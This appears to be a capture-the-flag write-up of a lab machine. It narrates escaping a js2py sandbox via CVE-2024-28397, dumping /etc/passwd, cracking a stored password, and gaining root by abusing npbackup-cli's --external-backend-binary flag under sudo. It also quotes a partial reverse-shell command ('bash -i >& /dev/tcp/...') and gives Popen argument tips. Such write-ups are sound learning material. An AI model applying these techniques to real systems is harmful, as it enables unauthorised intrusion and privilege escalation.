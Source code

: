 I found and used a sandbox escape via CVE-2024-28397 to execute Python commands and eventually run system commands.

I escaped the sandbox, dumped files like /etc/passwd, and pivoted to a reverse shell.

Found a users.db file under /instance/, cracked Marco’s password, and accessed the next user.

Discovered npbackup-cli was executable as root via sudo, and abused the --external-backend-binary flag to get a root shell by running my custom reverse shell script as root.


❌ My Mistakes & Missteps
1. Misunderstanding argument passing in js2py → Python

I initially tried to use Python keyword args (stdout=-1) inside js2py.

But js2py converts JS objects into positional arguments, not keyword arguments, which broke things.

Mistake: assuming Python-style calling worked inside the JS sandbox.

2. Didn’t account for shell=True initially

My first reverse shell payload failed because I used shell syntax like bash -i >& /dev/tcp/... without setting shell=True.

That meant Python didn’t interpret it as a shell command — just as a string literal.

3. Using non-executable scripts

When creating my rshell or rvshell binaries, I initially didn’t make sure they were valid executables (no shebang or wrong perms).

Resulted in Exec format error when npbackup tried to call them.


💡 Key Takeaways (What I Learned)
🔸 1. js2py is dangerous

It’s a gateway to Python-level access. A simple endpoint like eval_js() can be exploited if unprotected.

Once escaped, it lets me call real Python classes like subprocess.Popen.

🔸 2. Python functions inside JS are positional-only

Keyword arguments don’t work through js2py.

I must carefully map out arguments positionally and use the Python function signature as a guide.

🔸 3. To get code execution from Popen I need:

Proper positional args.

stdout = -1 to capture output.

.communicate()[0].decode() to read and convert the output.

shell=True at the end if I’m using shell operators like >, &, |, etc.

🔸 4. Always read --help and man pages

The npbackup-cli tool had a full help output that hinted at the --external-backend-binary flag.

That was my entry to running any script as root, which is the clearest privilege escalation vector possible.
